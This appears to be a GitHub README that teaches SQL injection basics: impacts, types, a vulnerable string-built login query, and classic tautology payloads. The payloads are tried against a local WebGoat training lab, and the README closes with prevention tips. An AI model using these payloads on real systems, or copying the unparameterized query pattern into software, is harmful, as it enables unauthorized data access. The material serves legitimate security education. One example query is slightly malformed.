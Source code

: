 # SQL-Injection

![sqlinject_1](https://user-images.githubusercontent.com/9671419/87229079-e7e77980-c3c2-11ea-8066-338d5a5ad93e.JPG)

![sqlinject_2](https://user-images.githubusercontent.com/9671419/87229082-e918a680-c3c2-11ea-9bad-ed95e4841a2b.JPG)

## Impact of SQL Injection :

- Extract sensitive information

- Misusing authentication details

- Delete data & Drop tables

## Types of SQL Injection

SQL Injection

1. In-Band SQLi
   
     a. Error Based
     
     b. Union Based
     
2. Blind SQLi

     a. Boolean Based
     
     b. Time Based
    
3. Out of bound SQLi

## SQL Injection 

   SAMPLE:
   
   $statement = " SELECT * FROM users WHERE username = '$user' AND password = '$password' ";
   
   $statement = " SELECT * FROM users WHERE username = 'Dowlath' AND password = 'dowlath' ";
   
   HACKER:
   
   $statement = " SELECT * FROM users WHERE username = 'Dowlath OR '1' == '1' --' AND password = '$password' ";
   
   Example :
   
   Smith' or '1'='1

   Smith' or 1=1--

   Content is  only one user: Plane' or 1=1 LIMIT 1-- 

   if you want to get 5 users.

   Content is  only one user: Plane' or 1=1 LIMIT 5-- 

## TEST

1. Google find " webgoat8 "

2. Download github jar file from corresponding location.

3. If you downloaded latest version *.jar file , it will support latest version of java. So before run the jar file check once you java -version.

4. Run the jar file => D:\Spring-Boot-Security\sql-injection-webgoat-8.0>java -jar "webgoat-server-8.0.0.M17.jar"

5. Login in the browser -> http://localhost:8080/WebGoat/login

 ![login](https://user-images.githubusercontent.com/9671419/87229033-963eef00-c3c2-11ea-823e-dfbb428e860e.PNG)

6. If you are not registered create the user and access.

7. Execute the sql inject commands.

   As follows patterns,
   
   Smith' or '1'='1

   Smith' or 1=1--

   Content is  only one user: Plane' or 1=1 LIMIT 1-- 

   if you want to get 5 users.

   Content is  only one user: Plane' or 1=1 LIMIT 5--    
  
![webgoat_2](https://user-images.githubusercontent.com/9671419/87229035-97701c00-c3c2-11ea-9eeb-785e3aeaa679.PNG)

## PREVENTING SQL INJECTION

- Performing static & dynamic testing

- Using parameterized queries & ORM's

- Using escape characters in SQL queries

- Enforcing least privelage on database

- Enabling web-application firewalls


